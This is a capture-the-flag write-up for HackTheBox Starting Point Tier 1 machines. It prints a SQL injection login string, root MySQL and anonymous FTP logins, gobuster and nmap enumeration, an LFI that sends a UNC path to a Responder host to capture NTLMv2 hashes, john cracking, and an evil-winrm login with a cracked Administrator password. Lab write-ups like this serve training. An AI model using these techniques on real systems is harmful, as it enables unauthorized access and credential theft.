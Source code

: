 ```yaml
---
title: Starting Point | Tier 1
author: Zeropio
date: 2022-02-27
categories: [Pentesting, HackTheBox]
tags: [htb]
permalink: /pentesting/htb/starting-point/tier1
---
```



# Appointment
## Connection
We can search the IP in the navbar to get a website.
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_1.jpg" weight="100%" />

We will try a basic sql-injection, login with the user:
```console
' or '1'='1' #
```
For the password we just need to write a letter.

## Flag
The flag will be in front of us.

---

# Sequel
## Connection
We will use mysql to connect, with the **root** user.
```console
> mysql -u root -h 10.129.220.35
```

## Flag
Now we are in, we just need to list all the databases and search for the flag.
```sql
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
MariaDB [(none)]> use htb;

MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+

MariaDB [htb]> select * from config;
```

---

# Crocodile
## Connection
We will connect with ftp and the user **anonymous**. There we can download two files, with users and passwords.
```console
> ftp 10.129.122.93
```
With **gobuster** we can check for others files in the webpage, and we can see a **login.php**:
```console
>  gobuster dir -u http://10.129.122.93/ -w /usr/share/wordlists/directory-list-2.3-small.txt -x php
```

## Flag
We will have now this page:
<img src="https://raw.githubusercontent.com/zeropio/zeropio.github.io/main/_posts/ctf/htb/starting-point/img/Screenshot_2.jpg" weight="100%" />
With the **admin** login we can enter and get our flag.

--- 

# Responder
### Enumeration
Nmap:
```
#Nmap 7.92 scan initiated Sat Apr 30 10:43:29 2022 as: nmap -p- -T5 -oN nmap2 10.129.212.41
Nmap scan report for 10.129.212.41
Host is up (0.054s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
7680/tcp open  pando-pub

#Nmap done at Sat Apr 30 10:45:10 2022 -- 1 IP address (1 host up) scanned in 101.42 seconds
```

##### We need to add the IP with the domain to access the webpage.

### Explotation
We found a <a href="{{ "/notes/web/lfi-rfi/" | prepend: site.baseurl }}">LFI</a> in the page.
Then we can start a **Samba** server and forces the page to load it:
```console
> sudo responder -I tun0 -A
```
And then:
```
http://unika.htb/index.php?page=//10.10.15.167/kali
```

This will give us the password encrypted. With **john** we can decode it:
```console
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2
```
##### We can found all the previosly hashes in **/usr/share/responder/logs/Responder-Session.log**.

Finally we can exploit **winrm** and get the flag:
```console
> evil-winrm -i 10.129.212.41 -u Administrator -p badminton
```

### Flag
Finally we can get the flag in the **Desktop**.
